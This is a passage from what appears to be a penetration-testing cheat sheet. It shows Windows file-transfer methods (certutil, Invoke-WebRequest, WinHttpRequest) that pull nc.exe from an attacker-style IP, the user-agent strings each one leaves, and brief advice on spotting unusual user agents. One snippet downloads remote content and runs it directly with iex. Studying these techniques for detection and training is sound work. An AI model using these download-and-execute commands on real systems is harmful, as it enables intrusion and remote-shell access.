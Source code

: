 #### Certutil

- `certutil.exe -verifyctl -split -f http://10.10.10.32/nc.exe` Download a file

## Detection, Evasion and Bypass of protections

### Detection

User agents are not only used to identify web browsers, but anything acting as an HTTP client and connecting to a web server via HTTP can have a user agent string (i.e., cURL, a custom Python script, or common tools such as sqlmap, or Nmap).

Organizations can take some steps to identify potential user agent strings by first building a list of known legitimate user agent strings, user agents used by default operating system processes, common user agents used by update services such as Windows Update, and antivirus updates, etc. These can be fed into a SIEM tool used for threat hunting to filter out legitimate traffic and focus on anomalies that may indicate suspicious behavior. Any suspicious-looking user agent strings can then be further investigated to determine whether they were used to perform malicious actions.  

- [User Agent String Explained](https://useragentstring.com/index.php)
- [List of User Agent Strings](https://useragentstring.com/pages/useragentstring.php)

#### Invoke-WebRequest

- Client

```powershell
Invoke-WebRequest http://10.10.10.32/nc.exe -OutFile "C:\Users\Public\nc.exe" 
Invoke-RestMethod http://10.10.10.32/nc.exe -OutFile "C:\Users\Public\nc.exe"
```

- Server

```powershell
GET /nc.exe HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.14393.0
```

#### WinHttpRequest

- Client

```powershell
$h=new-object -com WinHttp.WinHttpRequest.5.1;
$h.open('GET','http://10.10.10.32/nc.exe',$false);
$h.send();
iex $h.ResponseText
```

- Server

```powershell
GET /nc.exe HTTP/1.1
Connection: Keep-Alive
Accept: */*
User-Agent: Mozilla/4.0 (compatible; Win32; WinHttp.WinHttpRequest.5)
```
